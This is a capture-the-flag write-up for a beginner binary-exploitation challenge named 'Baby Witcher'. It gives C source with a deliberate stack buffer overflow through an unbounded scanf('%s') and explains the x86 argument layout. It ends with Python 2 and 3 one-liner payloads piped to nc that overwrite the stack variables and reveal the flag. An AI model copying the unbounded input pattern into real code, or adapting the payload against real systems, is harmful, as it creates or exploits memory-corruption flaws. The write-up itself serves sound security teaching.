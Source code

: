 # Challenge Description
Challenge Name: **Baby Witcher**  
Category: `pwn`
```
Do you want to be a Witcher? Then get the flag.

Author: peace_ranger
nc <ip> <port>
```
# Challenge Source
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int print_flag(int arg1, int arg2)
{
    if (arg1 == 0x1569 && arg2 == 0xcafe69)
    {
        FILE *fp;
        if ((fp = fopen("flag.txt","r")) == NULL)
        {
            printf("Error! opening file");
            exit(1);
        }

        char flag[69];
        fgets(flag, sizeof(flag), fp);
        printf("%s\n", flag);
        return 1;
    }
    return 0;
}

int main()
{
    int arg1 = 0, arg2 = 0;
    char buf[12];
    
    printf("You want to be a Witcher? Then prove your worth.\n");
    printf("Tell me the Witcher Code.\n");
    fflush(stdout);

    scanf("%s", buf);

    int ok = print_flag(arg1, arg2);
    if (ok)
    {
        printf("Good job! See u in Trial of Grass :)\n");
    }
    else
    {
        printf("Sorry! You don't have what we're looking for. Come back again in few days.\n");
    }
    exit(0);
}
```
# Writeup
The challenge source, binary and Dockerfile was given to contestants. The challenge is intended for beginners who are just starting out in binary exploitation. It requires participants to use the buffer overflow vulnerability due to `scanf()` and overwrite the two arguments to `print_flag()` function with some specified value. If `arg1` and `arg2` are overwritten with `0x1569` and `0xcafe69` respectively, then `flag.txt` will be read and shown.  
The challenge binary is 32-bit and hence follows the x86 calling convention. One has to know the x86 calling convention to successfully overwrite the two variables. `arg2` is pushed on the stack first, then `arg1`. So, while sending the payload the value for `arg2` has to be sent first and `arg1` next. Also, as values have to be sent as 4-byte integer, `0x00` should be padded with them and fortunately, `scanf()` accepts byte `0x00` as part of the input.  

If the above explanation seemed out of world for anyone, then please follow this [playlist](https://youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&si=1LCJm5Ftao_j37pm). This is one of the best contents on the internet to learn Binary Exploitation. [Video 0x0c](https://youtu.be/T03idxny9jE?si=EpM0ggIRDe0Ztqly) discusses techniques directly related to this challenge.
## Final payload 
One liners to exploit the challenge.  
**Python 2**
```bash
python -c 'print "A"*16 + "\x69\xfe\xca\x00" + "\x69\x15\x00\x00"' | nc <ip> <port>
```
**Python 3**
```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*16 + b"\x69\xfe\xca\x00" + b"\x69\x15\x00\x00")' | nc <ip> <port>
```
See why we need these two versions of exploit for different python versions in this [stackoverflow answer](https://stackoverflow.com/a/56162216/7737870).
